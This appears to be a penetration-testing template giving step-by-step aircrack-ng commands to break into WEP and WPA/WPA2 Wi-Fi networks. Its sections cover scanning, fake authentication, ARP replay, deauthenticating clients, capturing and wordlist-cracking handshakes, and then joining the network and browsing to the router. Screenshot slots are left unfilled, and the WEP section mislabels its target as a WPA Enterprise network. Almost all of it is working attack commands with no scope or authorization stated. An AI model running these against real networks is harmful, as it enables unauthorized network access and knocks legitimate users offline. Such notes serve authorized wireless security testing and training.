 
# Attacking WEP

1. Run an `airodump-ng`  scan: 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
```

We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:**
![](image.png)

  

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](image.png)

  

  

  

3. If we see that there is a client connected, use the `besside-ng`  tool to get the password, `aireplay-ng`  to create a fake access point and to do an ARP-request replay attack to generate traffic on the fake access point at the same time. We can open different terminal windows to run the commands simultaneously. 

```bash
# 1. Stop the airodump-ng scan

# 2. stop monitoring on wlan0
sudo airmon-ng stop wlan0

# 3. Kill any processes that may interfere
sudo airmon-ng check kill

# 4. Run besside-ng
sudo besside-ng -c <CHANNEL> -b <BSSID> wlan0

# 5. Take a pcap of the wireless traffic
sudo airodump-ng -c <CHANNEL> --bssid <Wifi AP MAC Address> -w wep wlan0 --output-format pcap

# 6. Create a fake access point
sudo aireplay-ng -1 3600 -q 10 -a <Wifi AP MAC Address> wlan0

# 7. Run an ARP request attack
sudo aireplay-ng --arpreplay -b <Wifi AP MAC Address> -h <MAC Address of Client> wlan0

```

**Screenshot of attack:**

![](image.png)

  

  

  

4. In another terminal window, we can crack the pcap file we captured in the previous step. 

```
sudo aircrack-ng <PCAP FILE> /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> /usr/share/john/password.lst

# Convert key to ASCII
sudo aircrack-ng -l ascii-key wep.cap
```

**Screenshot of cracking pcap file:**

⁠![](image.png)

  

  

  

5. After finding the key, we can create a wireless configuration file to connect to the network: 

```
network={
  ssid="<SSID>"
  key_mgmt=NONE
  wep_key0=<PASSWORD>
  wep_tx_keyidx=0
}

```

  

Connect to the wireless network: 

```
sudo wpa_supplicant -D nl80211 -i wlan0 -c wep.conf

```

  

In another terminal, grab another IP address: 

```
sudo dhclient wlan0 -v

```

  

We can then attempt to connect to the default gateway endpoint (This IP should be address `x.x.x.1` ): 

```
firefox x.x.x.1

```

  

**Screenshot of connecting to wireless network:**

![](image.png)

  

  

# Attacking WPA and WPA-2

1. Run an `airodump-ng`  scan: 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
```

We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:  
**![](image.png)

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](image.png)

  

  

3. If there are any clients, we can attempt to de-authenticate them all: 

```
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

```

  

  

4. We see that we get a WPA handshake during our `airodump-ng`  scan: 

**Screenshot of 4-way handshake:**

![](image.png)

  

  

5. We can conclude the `airodump-ng`  scan and we can proceed to crack the 4-way handshake. 

```
sudo aircrack-ng <PCAP FILE> -w /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> -w /usr/share/john/password.lst
```

**Screenshot of cracking 4-way handshake:**

![](image.png)

  

  

6. After cracking the password, we can include the password inside of the network configuration file: 

  

- WiFi configuration file we can save as `wpa.conf` 

```
network={
  ssid="<SSID>"
  key_mgmt=WPA-PSK
  psk="<PASSWORD>"
  proto=RSN
}

```

  

- Connect to the wireless network with that configuration file: 

```
sudo wpa_supplicant -D nl80211 -i wlan0 -c wpa.conf 

```

  

In a separate terminal, we can grab another IP address via DHCP:

```
sudo dhclient wlan0 -v
```

  

  

7. We confirm that we are on the network: 

```
iwconfig
```

**Screenshot of the wireless interface**

![](image.png)


8. We browse to the router endpoint IP `x.x.x.1` in the browser: 

```
firefox x.x.x.1
```  
